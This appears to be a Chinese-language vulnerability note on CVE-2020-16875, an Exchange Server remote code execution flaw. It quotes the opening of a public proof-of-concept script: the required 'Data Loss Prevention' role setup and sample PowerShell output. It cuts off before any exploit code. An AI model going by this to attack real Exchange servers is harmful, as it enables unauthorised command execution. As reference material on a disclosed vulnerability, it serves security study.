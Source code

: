 ### CVE-2020-16875: Exchange Server 远程代码执行漏洞

> 更新公告:`https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-16875`
> 
> 微软公告说的很明显,只需要一个Exchange用户账号。就能在Exchange服务器上执行任意命令。

> `https://srcincite.io/pocs/cve-2020-16875.py.txt`
>
```angular2
#!/usr/bin/env python3
"""
Microsoft Exchange Server DlpUtils AddTenantDlpPolicy Remote Code Execution Vulnerability
Patch: https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2020-16875

# Notes:

The (ab)user needs the "Data Loss Prevention" role assigned and if performing the attack over the ecp interface (this poc) then the user will need an active mailbox.

[PS] C:\Windows\system32>New-RoleGroup -Name "dlp users" -Roles "Data Loss Prevention" -Members "harrym"
 
Name      AssignedRoles          RoleAssignments                  ManagedBy
----      -------------          ---------------                  ---------
dlp users {Data Loss Prevention} {Data Loss Prevention-dlp users} {exchangedemo.com/Microsoft Exchange Security Groups/Organization Management, exchangedemo.com/Users/test}

[PS] C:\Windows\system32>Get-RoleGroup "dlp users" | Format-List

RunspaceId                  : 098e1140-30e3-4144-8028-2174fdb43b85
ManagedBy                   : {exchangedemo.com/Microsoft Exchange Security Groups/Organization Management, exchangedemo.com/Users/test}
RoleAssignments             : {Data Loss Prevention-dlp users}
Roles                       : {Data Loss Prevention}
DisplayName                 :
ExternalDirectoryObjectId   :
Members                     : {exchangedemo.com/Users/Harry Mull}
SamAccountName              : dlp users
Description                 :
RoleGroupType               : Standard
LinkedGroup                 :
Capabilities                : {}
LinkedPartnerGroupId        :
LinkedPartnerOrganizationId :
Identity                    : exchangedemo.com/Microsoft Exchange Security Groups/dlp users
IsValid                     : True
ExchangeVersion             : 0.10 (14.0.100.0)
Name                        : dlp users
DistinguishedName           : CN=dlp users,OU=Microsoft Exchange Security Groups,DC=exchangedemo,DC=com
Guid                        : fa5c8458-8255-4ffd-b128-2a66bf9dbfd6
ObjectCategory              : exchangedemo.com/Configuration/Schema/Group
ObjectClass                 : {top, group}
WhenChanged                 : 6/12/2020 11:29:31 PM
WhenCreated                 : 6/12/2020 11:29:31 PM
WhenChangedUTC              : 6/12/2020 3:29:31 PM
WhenCreatedUTC              : 6/12/2020 3:29:31 PM
OrganizationId              :
Id                          : exchangedemo.com/Microsoft Exchange Security Groups/dlp users
OriginatingServer           : DEAD01.exchangedemo.com
ObjectState                 : Changed

# Example:

```